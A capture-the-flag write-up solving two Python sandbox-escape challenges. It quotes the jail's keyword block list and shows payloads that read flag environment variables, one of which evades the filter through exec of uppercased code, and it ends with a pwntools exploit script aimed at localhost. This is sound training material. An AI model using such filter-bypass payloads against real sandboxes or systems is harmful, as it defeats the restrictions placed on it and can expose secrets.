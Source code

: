 # Pyjail

## Description
This challenge is divided into two entry-level pyjail:
- First jail
- Second jail

## Solution
By looking at the source code, we know that the two flags are two environment variables defined in the `docker-compose.yml`, and they are respectively `flag1` and `flag2`.

To obtain the first flag, it's enough to import the `os` library and print the `flag1` environment variable since there are no limitations:
```bash
>>> import os; print(os.environ['flag1'])
```

To obtain the second one, however, we need to bypass some checks:
```py
if any(x in user_input for x in ["import", "environ", "getenv", "os", "print", "system", "__", "open", "flag"]):
    print("Blocked!")
    continue
```
This is easy to do since we can use `exec` again, write everything in uppercase, and use the `.lower()` function.
```bash
>>> exec("IMPORT OS; PRINT(OS.ENVIRON['FLAG2'])".lower())
```

## Exploit
```py
from pwn import remote, context

context.log_level = 'error'

payload1 = b"import os; print(os.environ['flag1'])"
payload2 = b"exec(\"IMPORT OS; PRINT(OS.ENVIRON['FLAG2'])\".lower())"

r = remote("127.0.0.1", 5004)
r.recvuntil(b">>> ")
r.sendline(payload1)
flag1 = r.recvline().decode().strip()
r.close()

r = remote("127.0.0.1", 5005)
r.recvuntil(b">>> ")
r.sendline(payload2)
flag2 = r.recvline().decode().strip()
r.close()

print(flag1)
print(flag2)
```
